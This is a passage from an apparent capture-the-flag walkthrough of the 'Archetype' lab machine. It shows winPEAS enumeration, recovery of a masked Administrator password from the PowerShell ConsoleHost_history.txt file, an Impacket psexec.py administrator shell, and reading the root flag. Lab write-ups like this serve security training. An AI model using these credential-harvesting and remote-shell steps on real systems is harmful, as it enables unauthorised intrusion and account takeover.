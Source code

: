            C:\Users\sql_svc\Desktop>dir
            dir
             Volume in drive C has no label.
             Volume Serial Number is 9565-0B4F
            
             Directory of C:\Users\sql_svc\Desktop
            
            08/18/2025  09:17 AM    <DIR>          .
            08/18/2025  09:17 AM    <DIR>          ..
            02/25/2020  07:37 AM                32 user.txt
            08/18/2025  09:17 AM         1,930,752 winPEASx64.exe
                           2 File(s)      1,930,784 bytes
                           2 Dir(s)  10,721,677,312 bytes free
________________________________________________________________________________________________________________________

### Execution ###
  " executing the winPeasx64 file we downloaded on the victim system: "
    .\winPEASx64.exe

We will read the PowerShell history file, which is the equivalent of bash_history for Linux systems

**The file ConsoleHost_history.txt can be located in the directory**
  `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\` 

`We got in cleartext the password for the Administrator user which is`
 (********_*dm1n!!)
________________________________________________________________________________________________________________________

### Shell ###
  "We can now use the tool psexec.py again from the Impacket suite to " 
           " get a shell as the administrator: "

┌──(kali㉿kali)-[~/Documents/Archetype/impacket/examples]
└─$ python3 psexec.py administrator@<ip>
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Requesting shares on <ip>.....
[*] Found writable share ADMIN$
[*] Uploading file otaZVEzk.exe
[*] Opening SVCManager on <ip>.....
[*] Creating service ENjp on <ip>.....
[*] Starting service ENjp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.
  C:\Windows{}> 
________________________________________________________________________________________________________________________

### Exploitation ###

C:\Windows{}> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

       Directory of C:\Users\Administrator\Desktop
      
      07/27/2021  02:30 AM    <DIR>          .
      07/27/2021  02:30 AM    <DIR>          ..
      02/25/2020  07:36 AM                32 root.txt
                     1 File(s)             32 bytes
                     2 Dir(s)  10,723,348,480 bytes free

C:\Users\Administrator\Desktop> type root.txt
(--GET-THIS--YOURSELF-------------) #root flag#

